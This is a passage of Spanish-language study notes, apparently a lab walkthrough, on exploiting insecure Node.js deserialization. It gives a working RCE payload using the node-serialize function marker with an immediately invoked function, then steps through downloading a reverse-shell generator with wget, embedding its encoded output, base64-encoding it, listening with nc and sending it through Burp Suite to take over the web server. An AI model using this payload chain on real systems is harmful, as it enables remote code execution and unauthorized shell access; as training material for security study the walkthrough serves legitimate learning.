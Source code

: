 Ahora si con ``node unserialize.js`` lo ejecutamos, no sucederá nada, pero si colocamos el ``IIFE ()`` antes de las ultimas dobles comillas en la variable **payload** tal que así

- ``var payload = '{"rce":"_$$ND_FUNC$$_function(){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';``

Y luego ejecutamos con ``node userialize.js`` nuevamente, nos dará el **output** del comando ``ls /``

-----

Ahora lo que restaría sería entablar una **Reverse Shell** a través de este concepto. En la web se nos otorga un [código](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) funcional para poder entablarla correctamente.

Iremos al código en formato RAW, copiaremos la URL y con ``wget`` lo descargaremos.

- ``wget https://raw.githubusercontent.com/ajinabraham/Node.Js-Security-Course/master/nodejsshell.py``

- ``python2.7 nodejsshell.py 192.168.0.194 4646``

Copiaremos todo el **Encoding** que se encargará de entablarnos la **Reverse Shell**.

Meteremos todo el contenido de *serialize.js* serializado con ``node serialize.js`` en un archivo llamado *data* por ejemplo y lo modificaremos para poder acoplarle el **Encoding brindado por el script** de la Reverse Shell.

Primero borraremos la antigua instrucción.

![[ATK D 21.png]]

Dentro de los corchetes **meteremos nuestro código de la Reverse Shell** y seguido de los corchetes el ``IIFE ()``

![[ATK D 22.png]]

Ahora lo ultimo que resta es **pasar todo el código entero a Base64** ==Sin el "#" del final== porque así es como lo interpreta el servidor.

![[ATK D 23.png]]

------

Ahora lo que restaría sería copiar toda la cadena en Base64, ponernos en escucha con ``nc -nlvp 4646`` por el *puerto 4646* como especificamos y **pegar toda la cadena en la petición de la web** en Burpsuite.

![[ATK D 24.png]]

![[ATK D 25.png]]

De esta forma habríamos vulnerado la web con un **Ataque de deserialización** por Node JS.
